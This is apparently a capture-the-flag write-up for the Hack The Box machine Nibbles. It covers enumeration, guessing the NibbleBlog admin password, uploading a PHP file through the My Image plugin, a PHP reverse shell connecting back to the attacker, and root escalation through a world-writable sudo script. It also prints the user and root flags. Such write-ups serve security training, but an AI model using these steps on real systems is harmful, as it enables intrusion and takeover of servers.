



# Nibbles - 10.10.10.75

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.75
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-26 21:14 EDT
Nmap scan report for 10.10.10.75
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site does not have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.85 seconds
```

## Website

```bash
curl -svk "http://10.10.10.75" | grep . 
```

The command above is a quick way to see what is on the webpage without opening it in a browser. And it shows much more than what is displayed on the browser such as **headers** and **html comments**. The server header can be crossed check with the nmap results. The comment indicates that there is a directory named **nibbleblog** on the server.


## Gobuster

Enumerating the Apache webserver with gobuster.

```bash
gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt -o log/gobuster.out -u http://10.10.10.75/nibbleblog
```

```bash
/.htpasswd            (Status: 403) [Size: 306]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2992]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
```

```bash
curl -sk "http://10.10.10.75/nibbleblog/README"
```

Upon inspecting the **README** file, the **version**, **release date** and **technologies** used by the Content Management System (CMS) is discovered.


```bash
curl -sk "http://10.10.10.75/nibbleblog/content/"
```

When viewing the content page, it has directory listing enable.


On viewing the [http://10.10.10.75/nibbleblog/content/private/users.xml](http://10.10.10.75/nibbleblog/content/private/users.xml) file, there is only one user, **admin**, and it appears to have an **IP filtering blacklist**.


Since it is likely that the attacker gets blocked if they try a password bruteforce attack, the config file can be used as a hint for potential password. Also **nibbleblog does not offer any default credentials** that can be used.

Potential password for user **admin**: 

- admin
- nibbleblog
- nibbles
- yumyum


Bad login attempts are recorded with the attacker's IP.


The attacker can successfully login using the credentials **`admin:nibbles`**.


## Searchsploit

Searchsploit is used to search for a known exploit for: **nibbleblog**

```bash
searchsploit nibbleblog
```


A metasploit exploit can be found for this exact nibbleblog version.

# Exploitation

### **Vulnerability Explanation:**

When uploading image files via the "My image" plugin - which is delivered with NibbleBlog by default - , NibbleBlog 4.0.3 keeps the original extension of uploaded files. This extension or the actual file type are not checked, thus it is possible to upload PHP files and gain code execution. 

source: [https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)

### Proof Of Concept

The metasploit exploit can be easily replicated manually without using metasploit.

A simple php script is created. When testing exploits, it is highly recommended to keep the proof of concept as simple as possible as it is less likely to be blocked. 

Example: `echo` is less likely to be blocked compared to `exec` or `system`. 

```php
<?php 
    echo "test test test";
?>
```

Upload URL: [http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image)

RCE URL: http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php




### Getting a reverse shell

On kali linux, these are some default location where php reverse shells can be found.

```bash
$ locate php-reverse                                                                             
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
```

```bash
cp /usr/share/laudanum/php/php-reverse-shell.php shell.php
```

Editing the php reverse shell to connect to the attacker's IP address.


The attacker then uploads the shell.php and sets up **nc** to listen for an incoming connection on port **8888**.


The reverse shell is then stabilised using the following commands.

```bash
which python3 # to know which python version exists
python3 -c 'import pty;pty.spawn("/bin/bash")' # gets a proper tty shell
# the shell is then backgrounded using ctrl+z
stty raw -echo # this is executed on the attackers machine
# then press fg to resume the tty shell
export TERM=xterm # after setting the terminal type, the screen can now be cleared
stty rows 42 cols 172 # sets the size for the tty shell
```



### User.txt

```bash
find /home -type f -ls 2>/dev/null
```

The above command finds everything having the type **file** in the directory **/home**, as well as listing all the attributes of each file and finally **2>/dev/null** is used to redirect **standard error** to **/dev/null**.


**User.txt** can be found in the home directory of **nibbler**.


```bash
cat /home/nibbler/user.txt
```


> user.txt flag: `41c963a4678306c21c790c4bb0dff71d`

# Post Exploitation

## Privilege Escalation to Root

As can be seen below, the user **nibbler** can execute the file **/home/nibbler/personal/stuff/monitor.sh** *without the need of a password*.

```bash
sudo -l
...[snip]...
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

```bash
unzip personal.zip
ls -la personal/stuff/monitor.sh
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 personal/stuff/monitor.sh
```


### **Vulnerability Explanation:**

The file **/home/nibbler/personal/stuff/monitor.sh** is world-writable. The content of the file can be modified to drop a shell. When running the file as root, the attacker will be get a root shell.

```bash
# line in added at the top of the script, just after the shebang line.
/bin/bash -p 
```

 


### Root.txt

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```



> root.txt flag: `d9ae263a345701460f51766ae70e5e26`

